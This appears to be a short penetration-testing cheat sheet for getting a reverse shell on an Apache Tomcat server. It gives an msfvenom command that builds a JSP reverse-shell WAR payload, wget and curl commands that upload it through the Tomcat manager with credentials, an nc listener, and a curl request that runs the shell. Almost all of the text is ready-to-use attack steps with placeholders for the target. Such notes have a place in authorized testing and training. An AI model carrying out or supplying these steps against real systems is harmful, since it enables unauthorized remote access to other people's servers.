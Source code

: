 - - -
💢️ **Generate payload**
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
``` 

- [ ] Go and Upload payload

**(** **Tomcat6** **: )** 🌊️   --> <mark style="background: #FFF3A3A6;">If using Tomcat 6</mark>
```sh
wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/deploy?war=file:shell.war&path=/shell' -O -
```

**(** **Tomcat7 and above** **: )** 🌊️ --> <mark style="background: #FFB8EBA6;">If using Tomcat 7 and above..</mark>
```sh
curl -v -u <USER>:<PASSWORD> -T shell.war 'http://<IP>:8080/manager/text/deploy?path=/shellh&update=true'
```

💢️ **Setup a Listener**
```sh
nc -lvp <PORT>
``` 

💢️ **Execute payload**

( **yes !!** **don't include** **.war** **)**
```sh
curl http://<IP>:8080/shell/ 
``` 

- - -

 